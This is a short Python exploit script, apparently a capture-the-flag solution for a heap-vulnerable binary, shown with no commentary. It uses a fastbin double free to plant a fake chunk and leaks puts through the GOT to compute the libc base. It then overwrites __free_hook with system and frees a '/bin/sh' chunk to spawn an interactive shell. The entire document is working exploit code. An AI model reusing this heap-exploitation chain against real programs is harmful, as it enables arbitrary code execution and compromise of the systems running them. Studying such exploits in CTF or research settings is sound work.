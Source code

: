 ```python


add(0x20, b'aaaaaa')  # 0
add(0x10, b'aaaaaa')  # 1
add(0x10, b'aaaaaa')  # 2
delete(1)
delete(2)
delete(1)
add(0x10, p64(0x602060-0x08))  # 3

add(0x10, b'aaaaaa')  # 4
add(0x10, b'aaaaaa')  # 5
add(0x10, p64(elf.got['puts']))  # 6 -> fake_chunk

puts_addr = u64(show(0).ljust(8, b'\x00'))
libc_base = puts_addr - libc.sym['puts']

system = libc_base + libc.sym['system']
free_hook = libc_base + libc.sym['__free_hook']
print(hex(free_hook))

edit(6, p64(free_hook))
edit(0, p64(system))

add(0x20, b'/bin/sh\x00')  # 7
delete(7)

sh.interactive()
```
